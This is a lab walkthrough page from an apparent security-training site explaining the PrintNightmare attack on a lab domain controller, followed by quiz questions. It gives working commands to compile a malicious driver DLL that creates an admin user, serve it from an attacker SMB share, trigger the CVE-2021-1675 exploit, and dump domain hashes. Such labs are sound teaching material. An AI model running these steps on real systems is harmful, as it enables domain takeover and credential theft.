

repository: netexperiments/wadsecurity · page: labs/multi-domain-attacks/PrintNightmare/index.html · generator: mkdocs

#PrintNightmare Attack

In this attack, the Print Spooler service will be abused. This service used to allow users to upload their own printer drivers to enable easy network printer sharing. A printer driver is a software component that basically acts as a translator between computers and printers. These drivers could be uploaded by users to machines running the Print Spooler service, and the dangerous part is that the Print Spooler service runs as SYSTEM. Meaning that printer drivers are run as SYSTEM as well.

An attacker could then upload mallicious code disguised as a printer driver to a machine running the vulnerable service. 

The Print Spooler service runs on DCs by default. An attacker can then potentially upload a printer driver that creates a new user and adds this user to the local administrators group. And as simple as that, the attacker would then have administrative privileges on the DC itself.

To execute this attack, we can first assess if CAPTAIN provides the Print Spooler service:
```
crackmapexec smb 192.168.122.10 -M spooler
```

Lucky for us, the CAPTAIN DC does provide the vulnerable service. Now, create a file named 'pnightmare.c' inside the 'pnightmare' directory, with the contents seen in [pnightmare.c](../multi-domain-attacks/pnightmare.c). This code will create a user called 'printersplitter' with password 'Passw0rd' and add the user to the local administrators group.

Now, compile the code, start an SMB share so that the DC can retrieve the driver, and finally trigger the DC to retrieve the driver:
```
x86_64-w64-mingw32-gcc -shared -o pnightmare.dll pnightmare.c
sudo -E python3 /home/ubuntu/.local/bin/smbserver.py -smb2support ATTACKERSHARE . & 
#press ENTER
python3 CVE-2021-1675.py north.altair.local/skyler.white:'Password123'@captain.north.altair.local '\\192.168.122.2\ATTACKERSHARE\pnightmare.dll'
```

Now the attacker holds new administrative credentials, and can use them to dump domain user's hashes, for example, compromising every single user account:
```
crackmapexec smb captain.north.altair.local -u printersplitter -p 'Passw0rd' --ntds
```

!!! question
    Which Windows service is being targetted by the PrintNightmare attack?
??? success "Answer"
    The Print Spooler service, namely, the fact that it allowed users to upload arbitrary printer drivers.
!!! question
    Under which security context can attacker code be executed through this attack?
??? success "Answer"
    Through the PrintNightmare attack, an attacker can execute code under the SYSTEM security context.
!!! question
    Which method from the Spooler service does the attacker use to upload this arbitrary driver to the DC?
??? success "Answer"
    RpcAddPrinterDriverEx is abused to make the DC retrieve and install a malicious driver DLL from the attacker’s SMB share.
